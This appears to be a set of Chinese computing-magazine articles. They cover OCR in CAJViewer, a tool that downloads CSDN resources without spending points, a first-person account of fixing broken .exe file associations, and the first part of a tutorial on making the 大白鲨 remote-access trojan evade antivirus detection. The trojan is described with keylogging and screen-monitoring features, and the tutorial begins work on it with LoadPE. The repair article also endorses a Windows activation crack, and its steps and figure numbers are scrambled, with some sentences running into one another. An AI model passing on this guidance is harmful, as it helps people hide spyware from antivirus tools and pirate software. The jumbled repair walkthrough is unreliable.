2010、汉王文本王和Able2Extract等软件都能进行OCR，但都不同程度存在着像必须要转换成图片格式、操作步骤多、识别率不太高和对汉字的支持不很完美等缺点，而中国期刊网的专用全文格式阅读器——CAJViewer在这一方面做得非常到位。目前它的最高版本是7.1.2，是阅读中国知网等知名学位论文等PDF文件的最合适工具。安装时注意在进行到“选择安装类型”时要选择“完整安装”。使用CAJViewer打开PDF文件之后，如果需要选定某部分内容进行OCR文字识别，可以先试一下用鼠标点击左上角工具栏中的“选择文本”按钮（带有字母T字型），看看是否能够进行——若鼠标的插入型指针右下角出现带斜杠的小白圈，说明不行……

#### 四、CSDN免积分下载

号称“全球最大中文IT社区”的CSDN（http://www.csdn.net/）上有着许多的实用软件和教程等资料，将搜索到的资源链接地址最后的数字（比如3883148）粘贴到“资源ID”，然后输入验证码，点击“确定”按钮就可以看到程序开始工作了（如图5）。一段时间之后，程序会提示我们“获取地址成功：下载地址已经复制到剪切板，请打开浏览器粘贴即可下载！”，点击“确定”按钮之后就能调用默认的下载程序进行该资源的下载了（如图6）。



## 兼容不是小儿科

### ——exe文件关联的修复

今天是悲惨的一天。现在能打开Word给大家写文章，情况已经解决了，以下图片是修复的时候拍下的。对此，我是用了下下策，你们懂的，因为.com也没有关联。

回到战场，是战前的那些“风吹草动”，唉！“千古兴亡多少事？悠悠，不尽长江滚滚流。”啊~

原本的右键-[打开]选项不见了，图1文件描述也不是“应用程序”，而是“EXE文件”，天哪人家可是应用程序咋给你变成文件了？你，你你……

说来会变成这样，我不得不跟大家提个醒：不要以为兼容性是小问题。这么说，是因为这都是我们的老朋友Restorator 2007造成的，看到2007，就想到当时Windows 7还没有出世呢~~~(>_<)~~~

虚拟光驱一个是安装WIN7的。PE下的程序很实用，像什么FINALDATA、GHOSTEXP、WINDOWS_TOOLS等等，其中WINDOWS_TOOLS这里面都是Windows的维护工具，像重设密码什么都在这儿。PE好像也不小，大家去下载吧，百度一搜就是。

或者另外一个方法：下载ghost系统，T.iso格式的，然后里面肯定有个PESETUP的，点它吧，按提示安装。装完需启动进入PE，可能有些朋友发现是一个空系统，这是因为没有外置程序，在ghost里面的PE安装完都是这样，这时候你在PE下打开那个iso根目录下的PESOFT就可以了，这个大家自己尝试。

好了，由于INSWIN7需要win7安装光盘的.wim文件，在PE下直接载入虚拟光驱运行setup.exe是不行的，但是Windows XP的安装程序应该是可以的。我们的虚拟光驱就是把install.wim文件提取出来。



图1



图3

.exe、.com文件关联没了，图2。那么cmd也要沉睡了，怎么办？心里那个急，我的教程还没看完呢~！教程是屏幕录像专家的EXE格式的。1800秒就这样过去，还是没有采取行动。不管了，下策也要了，我对自己说：“孩子，重装吧！”

“咔~”一声，电闪雷鸣风云变色，进入预先装好的Windows PE，幸好留了一手，但我还是欲哭无泪。备份好数据到非系统盘，伤心地按下了【重新启动】。



图2

这里用到PE下的两个软件VIRTUAL_DRIVE和INSWIN7，看名字就知道怎么回事，一个是下面的两个分区框是一样的，作者这样做不知有何用意，应该多余，因为直接提取.wim文件就是提取到系统分区的，不存在暂时使用一说（仅代表个人观点）。

大家说：载入之后直接选择虚拟光驱里的.wim文件不就可以了吗？是，对Win7来说的确可以，因为刚才装完之后是直接进入系统，没有再调用.wim文件（也就是关了PE之后，关了PE虚拟光驱就关了，到时候调用不到就要Game Over了！），但是虚拟光驱终究是建立在PE系统上，关了就没了。

如果有个系统是在关了PE之后还要调用的那就不能这样了。但是PE的这些程序不会这样，为什么？因为这是程序的设计需要，如果关了PE还要调用，那么就不能体现这些工具的方便性和安全性了。又扯了一大篇，不就装个系统么~下点【安装】，喝茶去吧，去哪都行。

呵呵！

速度很快，图4当然这个时间不准，1min可能有1min30s这个长度，但差不多有这个速度就OK了，喝茶去~。



图4



图7

现在终于是奋斗完了，系统回来了，下次绝对不把XP虚拟机的东西拖出Win7了！我永远不会忘记Restorator 2007注册成功后弹出的那个窗口：图8



图8

刚刚重新解压、运行、注册了一遍，情况又是一样，幸好！我下了金山的.exe关联修复工具.sc格式，我想：这次你死定了吧？劫持我的电脑？找到关联修复工具，双击，没反应；右键，傻眼了，跟exe一个情况了。

又坐下来，不甘心，点了【取消】之后，才发现半小时前自己的错误：怎么不来Restorator的设置看一下呢？唉~后来发现原因了，打开工具栏-工具-设置-外壳整合-编辑文件关联。“编辑文件关联”？这么强大？点进去先~如图：就是这个【上下文】图9。



图5

大概8分钟就可以重启了，在这之前程序自动运行了另一个程序，可能会没有内容显示，不要以为卡机，否则你的世界就末日来了。

重启后很惊讶：没有Windows7那个蓝蓝的第一阶段还是第三阶段的安装界面，直接是黑色的这个，如图5。

大概又过了5分钟就安装完毕，一切正常。设置好密码和时区就进入系统，我们在进系统前有个激活的设置，不要勾选【联机自动激活Windows】，我有工具。

战斗结束，嵌上久违的桌面，不会有下次了，图6。



图6

我这里用的是Win7 Activation v1.7，很早下载的现在还是有效的。点激活就可以了，图7。



图9

如果【上下文】那一列有XXX，点【取消上下文】，【确定】就收工了，什么工具都免了，因为Restorator已经打开，Restorator无敌！（那个下面有四个按钮的，截图的时候显示不正常，见谅。其实不兼容）

多难的一天，最后忠告：不兼容不是小儿科，不可尝。

## vflanker免杀（一）

### ——初识免杀

2012，一个新的开始。很多X友，第一次迈入这个行业，接触最多的就是远控，应该没错吧。实际这都是跟风跟出来的，因为远控的功能很多，全部集中在一个EXE上，比如屏幕监控、键盘记录之类；甚至能对系统进行操作，锁定鼠标锁定任务栏都可以。其实这是因为所谓的“黑客”论坛太过繁多，论坛成员混杂，使得论坛走了歪风。大家都是这样成长过来的，写作文用得最多的一句话就是：一路成长，一路感悟。在这个行业里也是一样，要不断成长，才能不断收获。因为这个是系列教程，我就扯长点了，说说自己的玩黑历程。

玩这个的路，并不是一帆风顺，崎岖、阻碍是总是少不了出现。当我遇到困难，我都先会自己“钻研”，然后按照自己的想法去做，如果失败了，才去请教别人，但通常都是吃闭门羹。我待过的论坛从最初的凤巢论坛到收客到现在的黑X。饭客，想必大家玩黑的都知道这个网络门户的后起之秀，可是饭客解散了，本来很好的网络技术门户，皆因为做了某些不道德的事情被JC叔叔给摆平。老饭如果看到我这篇文章不要生气，你的论坛的确是关了，我只是借此说一说罢。饭客是我学得的知识最多的地方，包括今天的免杀系列，都是从饭客那里学过来的，到现在我还很感谢hacksky，他就是那个系列教程的创建者。如果JC叔叔看到这些文章，千万不要在Google给他们人肉搜索，千万别，JC叔叔只抓坏蛋，他们是爱好者，是爱国守法的公民，包括我在内也一样；我不希望在这篇文章里提到两个网名，第二天他们就都被抓了，他们跟导致饭客被关的那个攻击小组性质不一样。

扯了这么大篇幅，只是跟大家谈谈我的内心，因为饭客关了，那段时间我曾失落了好一阵子。下面步入正题，我将按照记忆中hacksky的教程逻辑给大家列清知识点，大家看了一遍还要再看第二遍，不要怕做笔记，把自己刚学会的知识点记下，不管在txt还是在笔记本里都一样。很快你就会掌握你所作下的笔记，所以做笔记是个过程，只有用心看、用心学才可能真的学到东西。废话到这里止。

免杀对像我们就找个远控，远控一直是杀软的查杀重点对象，所以对远控免杀是对自己比较好的挑战。我也先不说现在杀毒软件的查杀原理什么的，我就按照我当年学习的方法、思路跟大家解说，因为这应该更有利于初学者去理解。

- 免杀对象：大白鲨远控 V1.5 共享版
- 开发：X.S.F
- 来源：网络
- 优势：win7可兼容运行
- 缺陷：键盘记录重启即重置清空，不能长期监控键盘，若要监控键盘还需要另外的键盘记录。

选择这个而不选择灰鸽子，是因为2015年微软将对XP停止更新，到时候的系统都是win7主流，所以以往xp的远控都没用了。但这里我虚拟机是XP，以往在win7虚拟机测试功能都是可用的。

现在打开DATA目录，把“注入兼容win7.rar”解压到当前文件夹覆盖data.file，文件体积变成391KB。在这里“注入不兼容win7.rar”解压出来的文件使用的时候有些bug，所以大家还是使用兼容win7的，也是可以在xp运行的。首先把data.file载入Load PE，这个软件大家要学会使用，以后的免杀工作都需要它来支配。载入后如图1。



图1

我这里使用的是右键-发送到-直接载入，这对今后的免杀提供了很大的方便。具体做法：发送到的目录位于C:\Documents and Settings\用户名\SendTo，只要把快捷方式复制到这里来就可以实现右键-发送到-执行的功能，如图2是已保存好的快捷方式。到目前为止，这个教程都在虚拟机内进行，每次使用的时候我都是还原快照来实现，虚拟机在免杀的时候非常必要，除了测试之外，最大的作用就是保证本机不受任何影响。

大家创建虚拟机，内存分配很重要，一般不要选择推荐数值，要根据自己的机器情况而定，如图3。我总结出来的就是1/4本机物理内存，如果1/2还是有点勉强，太小了虚拟机内的系统卡，太大了物理机上的虚拟机主程序也卡，造成虚拟系统跟着卡，大家要明白这一点。磁盘设置一般为10G，系统都要用去2G左右，再加上系统自身虚拟内存就3个G，放上工具就4个G，剩下的虽然没用，但是放开一点不要制约得太紧，心情也好点。



图2

